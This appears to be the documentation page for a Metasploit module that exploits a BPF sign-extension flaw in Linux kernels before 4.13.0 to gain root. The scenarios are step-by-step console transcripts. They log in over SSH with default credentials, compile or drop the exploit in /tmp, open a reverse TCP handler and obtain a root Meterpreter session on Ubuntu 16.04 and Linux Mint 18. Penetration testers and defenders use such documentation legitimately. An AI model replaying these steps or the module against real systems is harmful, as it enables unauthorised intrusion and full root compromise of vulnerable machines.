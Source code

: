 ## Vulnerable Application

This module exploits the Berkeley Packet Filter in the Linux kernel prior to 4.13.0,
which contains a vulnerability where it may improperly perform sign extentension.
This can be utilized to priv escalate.  However, this module's offsets and
other parameters have only been set and tested against the 4.4.0-116 kernel.

This module has been successfully tested on:

  * Ubuntu 16.04 with the 4.4.0-116 kernel
  * Linux Mint 18 with the 4.4.0-116-generic kernel

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
### Linux Mint 18

  ```
  msf5 exploit(multi/handler) > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > check
  
  [!] SESSION may not be compatible with this module.
  [+] Kernel confirmed vulnerable
  [*]  The target appears to be vulnerable.
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run
  
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing UVQYvBTJ to /tmp/UVQYvBTJ.c
  [*] Max line length is 65537
  [*] Writing 7773 bytes in 1 chunks of 26765 bytes (octal-encoded), using printf
  [*] Writing ljJApCaK to /tmp/ljJApCaK
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 845 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 172.16.191.207
  [*] task_struct = ffff88003ce84600
  [*] uidptr = ffff88003cc46f04
  [*] spawning root shell
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.207:48276) at 2018-03-24 22:46:58 -0400
  [+] Deleted /tmp/UVQYvBTJ.c
  [+] Deleted /tmp/UVQYvBTJ
  [+] Deleted /tmp/ljJApCaK
  [!] This exploit may require manual cleanup of '/tmp/UVQYvBTJ.c' on the target
  [!] This exploit may require manual cleanup of '/tmp/UVQYvBTJ' on the target
  [!] This exploit may require manual cleanup of '/tmp/ljJApCaK' on the target
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.207
  OS           : LinuxMint 18 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
